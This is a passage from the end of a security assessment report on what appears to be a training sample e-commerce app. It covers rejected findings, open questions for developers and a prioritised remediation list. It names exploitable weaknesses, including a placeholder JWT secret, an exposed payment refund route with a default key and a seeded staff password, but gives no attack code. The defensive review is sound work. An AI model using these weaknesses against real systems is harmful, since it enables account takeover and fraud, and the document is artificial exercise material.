| Database not published to the host | `docker-compose.yml:49-50` uses `expose` rather than `ports` for `db`, and `api` likewise (`:23-24`), so neither is bound to a host interface — this part of `DESIGN.md:996` is correctly implemented. Only `web`'s host binding is a deviation, reported in F-04. |
| Migration ordering / `api` serving before schema exists | `docker-compose.yml:21-22` gates `api` on `migrate: condition: service_completed_successfully` and `db` on a `pg_isready` healthcheck (`:44-48`), satisfying `DESIGN.md:999`. |
| Destructive seed script | `api/src/db/seeds/01_initial_data.js:4-14` truncates every table, but `npm run seed` is a manual operator command (`README.md:16-18`) not wired into any container's startup, so it is not remotely triggerable. The hardcoded seed password is addressed in F-05's remediation. |
| Review retained after refund (astroturfing) | A customer can buy, review, then obtain a refund and keep the published review, since reviews are never re-validated against current order status. Real but low-value: it costs the attacker a genuine purchase, a CS agent must approve the refund, and the resulting integrity impact is a single review. Noted as an open question rather than a finding. |
| Admin can read all orders | `GET /api/admin/orders` (`admin.js:65-68`) returns every order, which is the design's stated Admin capability (`DESIGN.md:124`, "view all orders (read-only)") and is correctly gated by `requireRole('admin')`. Intended behaviour, not a flaw. |
| Missing `/api/auth/logout` route causing a client error | `client.js:38` declares `api.logout()` but `AuthContext.logout()` (`AuthContext.jsx:30-33`) never calls it, so no 404 is ever triggered at runtime. The real issue is the absent server-side revocation, reported as part of F-03. |

---

## 8. Open questions for the development / architecture team

**Architecture and deployment**
1. Was the `gateway` container from `DESIGN.md:3.1/3.3/11.1` descoped deliberately, or is it pending? If pending, which component is intended to own TLS termination, rate limiting, and JWT pre-validation — a new container, or an extended nginx? (Needed to close F-04.)
2. Is `FauxPay` intended only for training, with a real Stripe-style gateway in production? If so, does the production topology still proxy the processor through our web tier, and is the `/fauxpay/` nginx route expected to disappear entirely? (F-02, F-07.)
3. What TLS certificate source is planned (ACME/Let's Encrypt, corporate PKI, cloud-managed)? Is mutual TLS or in-cluster encryption expected on the `api -> db` and `api -> processor` legs?
4. Is there an intended WAF, CDN, or bot-management layer in front of the gateway, or is `limit_req` the only anti-automation control?

**Authentication and session**
5. Was the split-token design (3.2) implemented and then reverted? The git history shows `dfcd3e6 Fix broken build: complete migration from localStorage JWT to httpOnly cookie auth` followed by `537bd1a Revert "..."` — what broke, and what is the plan to re-land it? (F-03.)
6. Are password reset (7.1a) and change password (7.1b) planned for a later milestone? Which transactional email provider will be used, and does it already exist in any environment? Without either flow, a user with a compromised session currently has no recovery path.
7. Is the 12-hour token lifetime a deliberate decision or an artifact of the reverted migration? What lifetime does the business consider acceptable for staff (admin/CS) sessions specifically?
8. How are `JWT_SECRET`, `DB_PASSWORD`, and `FAUXPAY_API_KEY` provisioned in non-local environments today — Docker secrets, a secrets manager, or the same `.env` copy? Is there a rotation procedure, and has the committed placeholder secret ever been used in a shared environment? (F-01.)
9. Should the role claim in the access token be authoritative, or should `api` re-read `users.role` per request? This determines how quickly a demotion or a compromised staff account can be contained.

**Authorization and business rules**
10. Is the exchange flow (7.6) considered complete? The customer-initiated entry point in the design's 7.7.6 diagram does not exist (only CS can create exchanges), and price-difference settlement and stock movement are entirely unimplemented. (F-09.)
11. Should refunds and exchanges above a threshold require a second approver? Is there an existing business rule for CS refund limits that the API should enforce?
12. Who is authorized to provision Admin and CS accounts in production, given that `PATCH /api/admin/users/:id/role` currently allows any admin to grant any role with no audit record and no last-admin guard? (F-11.)
13. Should CS agents see the full customer list, or should `GET /api/cs/orders` require an exact-match email rather than the current substring `ILIKE '%email%'`, which enumerates all customers on an empty-ish search term?

**Data handling and compliance**
14. What is the organization's PCI-DSS SAQ level and validation approach? The current tokenization path places the `web` container and Docker host in the CDE, which contradicts the design's scope-reduction assumption. (F-07.)
15. Is `payments.processor_card_token` required for any business flow (repeat purchase, exchange settlement)? If not, can the column be dropped? If yes, should it be replaced with a customer-scoped payment-method id?
16. What are the retention and deletion requirements for `users`, `addresses`, and `orders` (GDPR/CCPA erasure)? No deletion or anonymization path exists today.
17. Where should audit and application logs be shipped, and what retention applies? Is there an existing SIEM to alert on failed-login volume and role changes? (F-11.)

**Operational**
18. Should stock reservations expire, and if so after how long? The reserve-then-capture fix in F-08 needs a business-chosen TTL and a sweeper owner.
19. What is the expected maximum order quantity per line item? The cart currently accepts any positive 32-bit integer. (F-12.)
20. Is the seeded `ChangeMe123!` staff password present in any environment beyond a local developer's machine, and if so has it been rotated? (F-05.)
21. Are there integration or security tests planned for the authorization matrix (each role against each route)? None exist in the repository today, so regressions in `requireRole` coverage would be silent.

---

## 9. Summary

The implementation is materially less defended than `DESIGN.md` specifies. Notably, several controls the design treats as foundational are simply absent: the API Gateway, the two-token session model with revocation, account lockout, password reset/change, CSP, and rate limiting at any layer.

The parts that *are* right are worth preserving deliberately: all SQL goes through bound Knex parameters, React escaping leaves no XSS sink, checkout re-prices authoritatively from the catalog rather than trusting the client, object-level authorization on carts, orders, addresses, and reviews is consistently scoped to `req.user.sub`, function-level role checks are applied at the router level on every `/api/admin/*` and `/api/cs/*` route, the verified-purchase and one-review-per-widget rules are enforced at write time and backed by database constraints, and `db`/`api` are correctly unpublished.

Fix order, by exploitability and blast radius:

1. **F-01** (placeholder `JWT_SECRET`) and **F-02** (public `/fauxpay/charge`,`/refund` with a default key) — both are unauthenticated, single-command paths to full takeover and to moving money. Rotate the secrets, delete the `/fauxpay/` nginx route, and move the processor to an `internal` network before anything else.
2. **F-04** (no TLS/gateway) and **F-05** (no lockout or rate limiting) — these are what make F-01, F-03, and F-07 cheap; the gateway work delivers both.
3. **F-08** (stock committed before payment, never restored) — currently corrupts inventory on every declined card, attacker or not.
4. **F-03** (re-land the `HttpOnly` refresh-cookie session model) and **F-07** (processor-hosted fields to get our web tier out of the CDE).
5. **F-09**, **F-10**, **F-06**, **F-11**, then the low-severity items.

Files referenced in this model (all absolute):
- `C:\Users\Eben_Weinman\OneDrive - EPAM\Projects\Remediation Engineer Training\Sample Application\DESIGN.md`
- `C:\Users\Eben_Weinman\OneDrive - EPAM\Projects\Remediation Engineer Training\Sample Application\Node JS\.env`, `.env.example`, `docker-compose.yml`, `README.md`, `.gitignore`
- `...\Node JS\api\Dockerfile`, `api\package.json`, `api\src\app.js`, `api\src\server.js`, `api\src\db\connection.js`, `api\src\db\knexfile.js`, `api\src\middleware\auth.js`, `api\src\middleware\asyncHandler.js`, `api\src\services\fauxpayClient.js`
- `...\Node JS\api\src\routes\auth.js`, `users.js`, `cart.js`, `catalog.js`, `orders.js`, `reviews.js`, `admin.js`, `cs.js`
- `...\Node JS\api\src\db\migrations\20260101000001_create_users.js` ... `20260101000009_create_reviews.js`, `api\src\db\seeds\01_initial_data.js`
- `...\Node JS\web\Dockerfile`, `web\nginx.conf`, `web\vite.config.js`, `web\package.json`, `web\index.html`, `web\src\api\client.js`, `web\src\AuthContext.jsx`, `web\src\App.jsx`, `web\src\main.jsx`, `web\src\pages\*.jsx`
- `...\Node JS\fauxpay\Dockerfile`, `fauxpay\package.json`, `fauxpay\src\server.js`

No files were modified during this assessment. Per the engagement instruction, `THREAT_MODEL.md`, `threat-model-design.md`, `ANSWER_KEY.md`, and the `Node_JS_*_report.*` scanner outputs were not read.
